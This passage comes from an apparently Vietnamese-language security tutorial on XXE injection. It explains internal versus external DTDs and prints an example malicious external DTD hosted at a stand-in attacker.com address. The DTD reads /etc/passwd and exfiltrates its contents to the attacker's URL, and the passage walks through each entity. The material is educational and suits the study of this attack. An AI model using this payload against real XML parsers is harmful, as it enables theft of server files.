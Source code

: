 ![alt text](./img/need3.png)



## External DTD to exfiltrate data

- Có 2 loại DTD thường được sử dụng:

    • Internal DTD được khai báo trong chính file XML tương ứng:

```<!DOCTYPE root-element [element-declarations]>```

    • External DTD: Khai báo nội dung trong 1 tệp tin ".dtd" sẽ được tham chiếu tới sau đó.

- Trong các cuộc tấn công ```XXE Injection```, attacker thường định nghĩa 1 external DTD, sau đó gọi tham chiếu tới chúng tại payload gửi tới server, sau đó thực hiện truy xuất và hiển thị nội dung sensitive data tới 1 target do attacker sở hữu.


- Ví dụ: attacker host 1 website public chứa 1 external DTD file có URL "```http://attacker.com/malicious.dtd```" có content: 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">

%eval;

%exfiltrate;
```

  - Tệp dtd này hoạt động như sau:

    • Định nghĩa 1 parameter entity với tên "file" có content là nội dung file "/etc/passwd"

    • Định nghĩa 1 entity với name "eval", trong entity này chứa 1 định nghĩa parameter entity khác với tên "exfiltrate" sẽ gửi request tới website của attacker, truyền tham số x chứa nội dung tệp "etc/passwd" bằng cách gọi tham chiếu tới entity "%file"
